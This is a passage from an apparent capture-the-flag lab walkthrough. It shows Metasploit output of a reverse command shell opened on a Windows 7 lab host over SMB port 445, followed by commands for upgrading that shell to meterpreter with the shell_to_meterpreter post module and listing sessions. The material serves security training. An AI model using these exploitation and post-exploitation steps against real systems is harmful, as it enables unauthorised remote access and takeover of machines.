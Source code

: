 ```
[*] Sending stage (336 bytes) to 10.10.100.165
[*] Command shell session 1 opened (10.14.32.60:4444 -> 10.10.100.165:49171) at 2023-01-13 23:43:16 +0100
[+] 10.10.100.165:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.100.165:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.100.165:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


Shell Banner:
Microsoft Windows [Version 6.1.7601]
-----
          

C:\Windows\system32>
```

Now we have a reverse shell ! It is asked to background the shell using CTRL+Z.

## Privilege Escalation

**If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use ? (Exact path, similar to the exploit we previously selected)**  
I found [this web page](https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646) that explain how to convert our shell to a meterpreter, we will use the post module  
```post/multi/manage/shell_to_meterpreter```.  
So the answer is : post/multi/manage/shell_to_meterpreter  
Let's type ```use post/multi/manage/shell_to_meterpreter```.  


**Select this (use MODULE_PATH). Show options, what option are we required to change ?**  
Now we can see the options of the module by typing ```show options``` again.  
```
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST                     no        IP of host that will receive the connection from the payload (Will try to auto
                                        detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on


View the full module info with the info, or info -d command.
```

The answer is : SESSION  

To know what sessions are running, we use ```sessions -l```.  
```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l
